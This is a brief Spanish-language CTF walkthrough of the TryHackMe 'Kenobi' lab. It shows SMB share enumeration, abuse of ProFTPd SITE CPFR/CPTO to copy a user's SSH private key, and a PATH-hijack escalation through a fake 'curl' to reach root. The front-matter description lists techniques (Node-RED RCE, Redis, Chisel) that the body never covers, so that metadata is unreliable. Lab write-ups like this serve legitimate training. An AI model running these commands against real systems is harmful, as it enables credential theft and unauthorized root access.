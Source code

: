 ```yaml
---
title: "TryHackMe - Kenobi"
description: "Entorno multi-contenedor: Node-RED RCE, Redis write, Chisel port-forward y privesc con rsync+cron."
pubDate: 2025-08-26
draft: false
tags: ["Linux Privilege Escalation ", "Ssh", "Nmap"]
---
```



**IP:** 10.10.171.50

##  🌐 Enumeración SMB

```bash

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.171.50
Acceso anónimo:
  ```
```bash

smbclient //10.10.171.50/anonymous
smbget -R smb://10.10.171.50/anonymous
  ```
## 🧪 Explotación de ProFTPd

Robo de clave SSH:

```bash

SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
Acceso SSH:

```bash

chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.171.50
  ```
## 🦈 Escalada de Privilegios

Manipulación de PATH:

```bash

echo "/bin/sh" > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
  ```
  ## 👑 Root Access

  ```bash 
  whoami
# root
```